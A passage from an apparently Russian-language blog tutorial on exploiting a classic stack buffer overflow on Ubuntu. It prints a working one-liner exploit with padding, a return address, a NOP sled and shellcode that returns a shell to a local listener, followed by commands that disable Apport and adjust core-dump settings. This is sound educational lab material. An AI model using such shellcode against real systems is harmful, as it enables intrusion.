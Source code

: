 На языке питоновских однострочников эксплоит будет выглядеть так.

```python
python -c 'print "A"*132 + "\xbf\xff\xed\xcc"[::-1] + "\x90"*32 + "\xbe\xaf\x6c\xe1\x7e\xd9\xe5\xd9\x74\x24\xf4\x5f\x31\xc9\xb1\x12\x83\xc7\x04\x31\x77\x0e\x03\xd8\x62\x03\x8b\x17\xa0\x34\x97\x04\x15\xe8\x32\xa8\x10\xef\x73\xca\xef\x70\xe0\x4b\x40\x4f\xca\xeb\xe9\xc9\x2d\x83\x96\x29\xce\x52\x01\x28\xce\x51\xe8\xa5\x2f\xe9\x6c\xe6\xfe\x5a\xc2\x05\x88\xbd\xe9\x8a\xd8\x55\x9c\xa5\xaf\xcd\x08\x95\x60\x6f\xa0\x60\x9d\x3d\x61\xfa\x83\x71\x8e\x31\xc3" + "\x90"*32 + "A"'
```

А стек после внедрения шелл-кода примет следующий вид.

[![gdb-peda-stack-layout-2.png]({{ "/img/pwn-kingdom/classic-stack-overflow/gdb-peda-stack-layout-2.png" | relative_url }})]({{ "/img/pwn-kingdom/classic-stack-overflow/gdb-peda-stack-layout-2.png" | relative_url }})
{: .center-image}

Здесь практически все то же самое, что и на первом рисунке анализа стека за исключением того, что полезная нагрузка теперь находится после ESP. Но при этом мы также «прыгаем» ровно на середину предваряющего шелл-код NOP-среза (адрес `0xbfffedcc`), а зеленым снова выделено заполнение стека junk-символами «A»: `1 байт = Доступная_память_после_ESP - NOP_срез*2 - Шелл_код = 160 - 32*2 - 95`.

Оставив локального слушателя на 1337 порту, я запустил программу, подав на вход вредоносную строку, и получил свой шелл.

[![gdb-peda-dash-id-2.png]({{ "/img/pwn-kingdom/classic-stack-overflow/gdb-peda-dash-id-2.png" | relative_url }})]({{ "/img/pwn-kingdom/classic-stack-overflow/gdb-peda-dash-id-2.png" | relative_url }})
{: .center-image}

## Эксплоит без GDB

При работе программы не из-под отладчика адреса используемой памяти смещаются, поэтому вредоносная строка не сработает без корректировки адреса возврата. Для того, чтобы узнать новое значения интересующего нас адреса, воспользуемся дампом ядра.

Начиная с 16.04, в Ubuntu по умолчанию используется кошмарный сервис [Apport](https://wiki.ubuntu.com/Apport) для управления созданием отчетов о падении программ, включая дампы ядра. Кошмарный, потому что не дает управлять конфигурацией генерации дампов привычными способами, поэтому для начала избавимся от него.

```
$ sudo vi /etc/default/apport  # установить значение "enabled" в "0"
$ sudo systemctl stop apport
```

После этого внесем небольшие изменения в стандартное поведение создания дампов (первые три команды должны быть выполнены от имени su).

```
# echo 1 > /proc/sys/kernel/core_uses_pid
# echo '/tmp/core-%e-%s-%u-%g-%p-%t' > /proc/sys/kernel/core_pattern
# echo 2 > /proc/sys/fs/suid_dumpable
$ ulimit -c unlimited
```

Что здесь происходит по строкам:


[//]: # (2019-09-20)